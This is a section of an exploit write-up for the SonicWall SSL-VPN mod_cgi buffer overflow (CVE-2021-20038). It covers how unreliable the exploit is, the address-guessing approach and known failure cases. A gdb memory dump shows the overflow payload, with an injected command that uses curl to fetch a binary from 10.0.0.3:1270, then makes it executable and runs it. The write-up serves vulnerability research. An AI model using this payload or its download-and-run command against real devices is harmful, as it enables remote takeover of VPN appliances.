 ## Stability

A good question for any exploit: How stable is this exploit? Not at all :lol: The buffer overflow occurs in a library called `mod_cgi.so` (a modified version of the Apache HTTP project). The library is loaded with a randomized base and the overflow requires a *very specific* memory layout to be successful (at least as I read it). Really not great for a remote attacker. But as I detailed in the [AttackerKB](https://attackerkb.com/topics/QyXRC1wbvC/cve-2021-20038/rapid7-analysis) entry, there is a variety of things that allow us to *guess* the random address we desire.

As such, this exploit, as written (I cannot emphasize enough that this can be improved), sends up to 235,335 HTTP requests in order to land the payload by guessing a stack address. Two hundred thousand requests doesn't sound bad but it can take some time. In the example I posted above, the exploit took 83 minutes to land. Which means you aren't rolling it into your Mirai botnet to spew all over the internet :shrug: I think it *is* a reasonable exploit for a targeted attack though.

Additionally, the exploit (as implemented) suffers from two issues that could cause exploitation to fail. The first one is sort of silly. There are two addresses in front of the shell command that eventually gets executed. Both those addresses get passed to `/bin/sh` because programming is hard. If the first address has a shell metacharacter like '(' or '`' then the exploit simply won't ever work. Sorry! The worst part is that you'll never really know if the remote target requires such an address or if the exploit is broken!

The second issue is much more specific to how I wrote this, and could easily be fixed by someone that cares. I wrote this exploit to make a call to system, because I'm lazy and a hack. That required the payload to remain less than 2500ish bytes otherwise you end up overwriting env[] and crashing failing. Anyways. As mentioned in the AKB entry, the overflow occurs due to the build up of an environment string build up. Alignment and whatnot are very important to this exploit. Here is an example of the payload in memory:

```
Breakpoint 1, 0xb697cfe6 in ?? () from /lib/mod_cgi.so
(gdb) disas 0xb697cfe6,0xb697cfea
Dump of assembler code from 0xb697cfe6 to 0xb697cfea:
=> 0xb697cfe6:  mov    0x8(%ebp),%eax
   0xb697cfe9:  mov    0x110(%eax),%eax
End of assembler dump.
(gdb) printf "%s", $ebp-982      
10.0.0.3 REDIRECT_QUERY_STRING=zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz REDIRECT_WAF_NOT_LICENSED=1REDIRECT_SCRIPT_URL=/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaREDIRECT_SCRIPT_URI=https://sslvpn/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaREDIRECT_HTTPS=onREDIRECT_REQUEST_METHOD=GETREDIRECT_STATUS=404WAF_NOT_LICENSED=1SCRIPT_URL=/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaSCRIPT_URI=https://sslvpn/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaHTTPS=onSERVER_SIGNATURE=SERVER_SOFTWARE=SonicWALL SSL-VPN Web ServerSERVER_NAME=sslvpnSERVER_ADDR=10.0.0.7SERVER_PORT=443REMOTE_ADDR=10.0.0.3DOCUMENT_ROOT=/usr/src/EasyAccess/www/htdocsREQUEST_SCHEME=httpsCONTEXT_PREFIX=CONTEXT_DOCUMENT_ROOT=/usr/src/EasyAccess/www/htdocsSERVER_ADMIN=root@sslvpnSCRIPT_FILENAME=/usr/src/EasyAccess/www/cgi-bin/staticContentREMOTE_PORT=38236REDIRECT_URL=/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaGATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/0.9REQUEST_METHOD=GETREQUEST_URI=/%24%87%a4%bf%38%88%a4%bf%38%88%a4%bf%08%b7%06%08;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa%24%87%a4%bf%38%88%a4%bf%38%88%a4%bf%08%b7%06%08;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa?zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzSCRIPT_NAME=/missing.html
```
